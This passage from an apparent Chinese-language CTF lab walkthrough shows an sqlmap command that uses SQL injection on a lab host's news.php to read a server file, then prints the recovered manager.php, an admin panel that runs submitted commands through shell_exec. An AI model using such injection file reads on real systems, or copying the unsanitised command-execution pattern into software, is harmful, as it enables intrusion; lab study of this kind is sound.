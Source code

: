 ![](./images/image-195.png)

可以看到网站的路径，因此尝试读取**manager.php**的内容

```
[root@kali] /home/kali/singdancerap  
❯ sqlmap -u "http://192.168.56.116/news.php?title=sing" --file-read=/var/www/he110wor1d/littlesecrets/manager.php

....
<?php
session_start();

if (!isset($_SESSION['username'])) {
            header("Location: login.php");
            exit();
}

if ($_SESSION['username'] !== 'he110wor1d_admin') {
            die("Access Denied. You do not have permission to access this page.");
}

$command_output = '';

if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_POST['command'])) {
            $command = $_POST['command'];
                $command_output = shell_exec($command);
}
?>

<body>
    <div class="manager-container">
        <h2>Manager Panel</h2>
        <form action="manager.php" method="POST">
            <input type="text" name="command" placeholder="Enter command" required>
            <input type="submit" value="Execute">
        </form>
        <?php if (!empty($command_output)): ?>
            <div class="output">
                <h3>Command Output:</h3>
                <pre><?php echo htmlspecialchars($command_output); ?></pre>
```